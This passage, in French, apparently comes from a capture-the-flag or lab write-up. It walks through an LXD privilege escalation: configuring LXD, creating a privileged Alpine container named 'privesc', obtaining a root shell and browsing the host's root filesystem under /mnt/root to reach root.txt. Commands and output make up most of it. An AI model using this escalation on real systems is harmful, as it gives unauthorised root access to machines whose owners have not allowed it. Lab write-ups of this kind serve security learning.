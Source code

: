     ```
    
- On configure le pool de stockage :
    
    ```bash
    namelessone@anonymous:~$ lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]: no 
    Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
    Name of the new storage pool [default=default]:    
    Name of the storage backend to use (btrfs, dir) [default=btrfs]: dir
    Would you like to connect to a MAAS server? (yes/no) [default=no]: 
    Would you like to create a new local network bridge? (yes/no) [default=yes]: 
    What should the new bridge be called? [default=lxdbr0]: 
    What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
    What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
    Would you like LXD to be available over the network? (yes/no) [default=no]: no
    Would you like stale cached images to be updated automatically? (yes/no) [default=yes] yes
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
    namelessone@anonymous:~$ 
    
    ```
    
- On lance le container :
    
    ```bash
    namelessone@anonymous:~$ lxc init alpine privesc -c security.privileged=true
    ```
    
    ```bash
    / # whoami
    root
    ```
    
    Bien joué, nous voilà **root** !
    

Pour afficher le contenu du dossier **/root**, il faut se rendre dans '**/mnt/root**' :

```bash
/ # ls
bin    etc    lib    mnt    root   sbin   sys    usr
dev    home   media  proc   run    srv    tmp    var
```

```bash
/ # cd mnt/root/
```

```bash
/mnt/root # ls 
bin         etc         lost+found  proc        snap        tmp
boot        home        media       root        srv         usr
cdrom       lib         mnt         run         swap.img    var
dev         lib64       opt         sbin        sys
```

```bash
/mnt/root # ls root/
root.txt
```
